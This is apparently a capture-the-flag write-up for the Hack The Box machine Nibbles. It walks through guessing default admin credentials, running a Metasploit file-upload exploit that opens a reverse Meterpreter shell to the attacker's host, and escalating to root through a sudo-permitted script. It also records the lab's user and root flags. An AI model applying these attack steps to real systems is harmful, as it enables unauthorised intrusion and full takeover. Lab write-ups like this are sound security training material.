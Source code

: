 # Nibbles - 10.10.10.75
## Gobuster scan on http

upon closer inspection of the website, viewing the source reveals a hidden directory

### /nibbleblog

running gobuster on this page immediately gets results and I notice that there is an admin.php extention

after a few guesses.. admin:admin, nibbles:nibbles, nibbles:nibble, `admin:nibbles` I get a login and am able to access the admin panel

Username: admin
Password: nibbles

Looking through the page, under settings at the bottom we see the version of nibbleblog that is currently installed

Nibbleblog 4.0.3 "Coffee" - Developed by Diego Najar

With this information we can figure out an exploit using seachsploit that runs on this specific version

There is a metasploit module that performs an arbitratry file upload to the website

```ruby
msf5 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf5 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
msf5 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf5 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog/
TARGETURI => /nibbleblog/
msf5 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.75:57512) at 2020-05-09 07:38:34 -0400
[+] Deleted image.php

meterpreter > 
```

running the expoit with the correct options gives us a meterpreter shell


moving into nibbler's home directory, we have user.txt and a personal.zip file
```
meterpreter > cd nibbler
meterpreter > ls
Listing: /home/nibbler
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-12-29 05:29:56 -0500  .bash_history
40775/rwxrwxr-x   4096  dir   2017-12-10 22:04:04 -0500  .nano
100400/r--------  1855  fil   2017-12-10 22:07:21 -0500  personal.zip
100400/r--------  33    fil   2017-12-10 22:35:21 -0500  user.txt

meterpreter > cat user.txt
b02ff32bb332deba49eeaed21152c8d8

```

## onto root

look for the low hanging fruit `sudo -l`

```
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

so as nibbler we can run this file monitor.sh as root

download the file and examine it to see if i can get a root shell from it 

simply by adding bash to the top of the file and executing monitor.sh with sudo we can get back a root shell

however we need to set the environment properly before we can use a text editor like vi

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'                                                                                                                         
nibbler@Nibbles:/home/nibbler/personal/stuff$ ^Z                                                                                                                          
[1]+  Stopped                 nc -lvnp 1985                                          
jonathan@kali:~/htb/boxes/owned/nibbles$ stty raw -echo                              
jonathan@kali:~/htb/boxes/owned/nibbles$ nc -lvnp 1985

nibbler@Nibbles:/home/nibbler/personal/stuff$ stty rows 40 columns 170

```

with the shell properly set we open the file with vi, type the bash command right after the shebang and excute th efile with sudo

## win
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# 

root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# ls
root.txt
root@Nibbles:~# cat root.txt
b6d745c0dfb6457c55591efc898ef88c
```

user.txt: b02ff32bb332deba49eeaed21152c8d8
root.txt: b6d745c0dfb6457c55591efc898ef88c


